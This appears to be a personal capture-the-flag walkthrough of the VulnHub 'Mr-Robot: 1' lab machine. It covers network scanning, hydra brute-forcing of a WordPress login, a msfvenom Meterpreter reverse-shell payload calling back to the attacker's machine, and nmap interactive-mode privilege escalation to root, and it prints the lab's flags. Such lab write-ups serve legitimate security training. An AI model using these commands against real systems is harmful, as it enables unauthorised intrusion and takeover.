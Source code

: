 # Mr-Robot: 1
[VulnHub link](https://www.vulnhub.com/entry/mr-robot-1,151/)  
By Leon Johnson

Walkthrough:
* We are first greeted with a login page that is in command-line style, requiring users to specify both the username and the password:
![](/screenshots/mr-robot-1/Login.jpg)
* We try some common login credentials such as `admin:admin` and `admin:password`, which do not work.
* Run `nmap 10.0.2.*`, where we find 5 live hosts:
![](/screenshots/mr-robot-1/nmapScan.jpg)
* After eliminating our own IP address (`ifconfig`: 10.0.2.15) and our router gateway IP address (`route -n`: 10.0.2.1), we find that out of the 3 remaining hosts, `10.0.2.5` can run SSH, HTTP and HTTPS services (of which the ports for the latter 2 are open), which tells us that there is likely a web server running on the host. We will start exploring this live host first.
* Run `nmap -p- -A 10.0.2.5`:
![](/screenshots/mr-robot-1/hostFullScan.jpg)
* True enough, we see an Apache HTTP server program running in the host.
* Open `10.0.2.5` on our browser and we get an interactive-style page greeting us, leaving us with a "terminal" where we can execute several restricted commands:
![](/screenshots/mr-robot-1/interactiveSite.jpg)
* Executing any of the commands yields either a video or a series of stories with pictures. `join` prompts for an email, but nothing noteworthy happens out of it either.
* Opening the page source, there does not seem like there is anything interesting to be extracted as well:
![](/screenshots/mr-robot-1/interactiveSitePageSource.jpg)
* Run `uniscan -u 10.0.2.5 -qwe`:
![](/screenshots/mr-robot-1/uniscanResults.jpg)
* Note: uniscan is a Remote File Include, Local File Include and Remote Command Execution vulnerability scanner. -q enables directory checks, -w enables file checks and -e enables robots.txt and sitemap.xml check.
* uniscan vs. dirbuster: *to-be-added*
* From the scan results, we see that the site is running on WordPress, since the directory checks included links that ended with `wp-`.
* There is a robots.txt found from the scan's file checks. Open it and we see that there are 2 files listed: `fsocity.dic` and `key-1-of-3.txt`. The former is an unordered dictionary wordlist, while the latter reveals a string: `073403c8a58a1f80d943455fb30724b9`.
* It is likely that the dictionary file will be required for some sort of bruteforce attack later.
* `sitemap.xml` yields nothing of interest:
![](/screenshots/mr-robot-1/sitemapXml.jpg)

* ...
* key-1-of-3.txt contains a string (`073403c8a58a1f80d943455fb30724b9`): after running hash-identifer against it, we know that it could be a MD5 hash.
* ...
* Head to the wp-login page of the WordPress site, and we try to login with some common login credentials. We find that the user `admin` does not exist ("invalid username").
* We have to find a way to see actual WordPress posts on the site (if any), since clicking "← Back to user's Blog!" on the login page brings us back to the interactive page that we initially encountered (which did not quite show us how we are able to escape that page to head to other pages of the site).
* To do so, we add a random parameter string to the end of the site (e.g. `/100`), in order to get the error message that the page cannot be found:
![](/screenshots/mr-robot-1/invalidPage.jpg)
* However, we are not able to find any posts on the site.
* Note: The walkthrough [here](https://www.youtube.com/watch?v=1-a-P1Q2AnA&t=322s) on YouTube shows that there is a post on the WordPress site, with the user `elliot`.
* Run `wpscan --url 10.0.2.5 --enumerate u` to find out a list of usernames of accounts on the WordPress site:
![](/screenshots/mr-robot-1/wpScanUsers.jpg)
* wpscan: a black box WordPress vulnerability scanner. *to-be-continued*

* Login page's page source:
![](/screenshots/mr-robot-1/loginFormPageSource.jpg)

* Run `hydra -V -L fsocity.dic -p testpassword 10.0.2.5 http-post-form '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=Invalid username'`:
![](/screenshots/mr-robot-1/hydraUsername.jpg)
* Note: `hydra` is a parallelized login cracker which supports numerous protocols to attack.
* Note: -V: show login (username) and password for each attempt.
* An exisiting WordPress username was found almost immediately after the cracker started its run, i.e. the username was found near the top of the dictionary list.

* Head to the WordPress login site and attempt to login with a random password for the username `elliot`. There is an error stating that the password for elliot is incorrect. Thus, we now know that the username elliot indeed exists, and our next step is to brute-force the password for that account.
* Run hydra 192.168.153.174 http-form-post "/wp-login.php:log=elliot&pwd=^PASS^:ERROR" -l elliot -P /tut/fsocity.dic -t 10 -w 30
* Note: log and pwd are found by inspecting the input elements of the page's username and password fields through Developer Tools: `<input id="user_login" class="input" name="log"...>` and `<input id="user_pass" class="input" name="pwd"...>`
* The password (ER28-0652) is found somewhere at the bottom of the .dic file, thus it took quite some time to get it.
* After logging in as elliot, we are able to login and install as plugin called [File Manager](https://wordpress.org/plugins/wp-file-manager/).
* Run `msfvenom -p php/meterpreter_reverse_tcp LHOST=192.168.153.160 LPORT=4000 -f raw > shell.php` on our Kali VM to generate our payload. The LHOST is the IP address of our Kali VM.
* The payload is shell.php. Upload it through File Manager, and the file path is htdocs/wp-content/uploads/shell.php.
* Run `msfconsole` on our Kali VM. Run `use exploit/multi/handler` and `set payload php/meterpreter_reverse_tcp`.
* Run `set LPORT=4000` and `set LHOST=192.168.153.160` (IP address of our Kali VM).
* Run `exploit -j -z`. Open our reverse shell on the victim VM, and we will see from our Kali VM terminal that a session has been started.
* Run `sessions -i 1` then `sysinfo` to confirm that we are running on a Linux machine as detected earlier from our nmap/Zenmap scan.
* Navigate to our home directory and we find a directory called robot. Enter robot and we find key-2-of-3.txt and password.raw-md5.
* The key text file cannot be opened by us at the moment because the file is only readable by root, with no other permissions set. However, the password.raw-md5 file can be opened by us.
* We find the username `robot` and his password hash (`c3fcd3d76192e4007dfb496cca67e13b`) within the password file. Search for the original value behind the MD5 hash on the Google search engine, and we have now got the password (`abcdefghijklmnopqrstuvwxyz`) to robot.
* To-do: try to login via ssh using robot username and password. Ensure that the IP address of the victim VM is entered correctly.
* After logging in as robot, we find that we are able to open key-2-of-3.txt.
* We have to now find the last key, which is in /root. However, even after logging in as robot, we do not have the permission to navigate to /root. We have to do a privilege escalation here, using a badly configured nmap.
* Run `nmap`, `nmap --interactive` and then `!sh` to get a shell. `whoami` shows that we are now `root`.
* Head to /root and we find key-3-of-3.txt: `04787ddef27c3dee1ee161b21670b4e4`.
